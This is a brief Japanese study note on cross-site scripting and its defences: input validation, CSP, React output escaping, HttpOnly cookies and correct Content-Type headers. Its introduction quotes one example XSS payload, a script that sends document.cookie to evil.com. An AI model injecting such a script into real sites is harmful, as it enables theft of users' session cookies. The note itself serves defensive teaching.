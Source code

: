# XSS(Cross-Site Scripting)

## XSSとは？

- 攻撃者が掲示板などのコメント欄に悪意あるスクリプト（例: `<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
`）を投稿する
- 他のユーザーがこのコメントを表示した際に、そのユーザーのブラウザでスクリプトが実行されてしまう
  - Cookieが盗まれてしまう
  - フォームが自動送信される
  - 見た目（HTML）を書き換えてしまう

## 対策

### 埋め込み・登録を防ぐ: 入力値サニタイズ

- フロントエンド・サーバーサイドの双方でユーザー入力値のバリデーションを行う

### 発動を防ぐ1: CSP

- サーバ側でContent-Security-Policy（CSP）を設定する(レスポンスにヘッダをセットする)
  - CSPは、ブラウザに命令をするもの(インラインのJS実行禁止とか、同一オリジンのJSのみ実行許可するとか)
  - ブラウザがCSPに書かれている命令を読み取り、それに則り行動する
- 設定例:
  - `script-src 'self'`: `<script src="./script/app.js></script>`といった 外部スクリプトの同一オリジンのみ許可（インライン＝HTML内のJSやbutton等のHTMLタグのonclick属性等のJSもブロック）

[コンテンツセキュリティポリシー (CSP) - HTTP | MDN](https://developer.mozilla.org/ja/docs/Web/HTTP/Guides/CSP)

### 発動を防ぐ2: 出力時のエスケープ

- ReactのJSX内の埋め込みでは、デフォルトでHTMLとして解釈されないようエスケープされる
- ただし`dangerouslySetInnerHTML`のようなエスケープを無効化し、HTMLとして認識させるオプションを使用する際は注意する

### 読み取りを防ぐ: Cookie HttpOnly属性

- Cookie HttpOnly属性をつけることでJSからトークンを盗まれないようにする

### サーバー側での考慮事項

- Content-Typeに正しい値を指定する
  - JSONの値にJavaScriptコードを埋め込み、それを`Content-Type: application/html`として返し、それをユーザーがブラウザで表示してしまうと、そのスクリプトは実行されてしまう

### 対策まとめ

サーバーからブラウザに変なJSを実行しないでね＋ユーザー入力値はきちんと文字列として扱ってね＋もし万が一Cookieにアクセスされても盗まれないように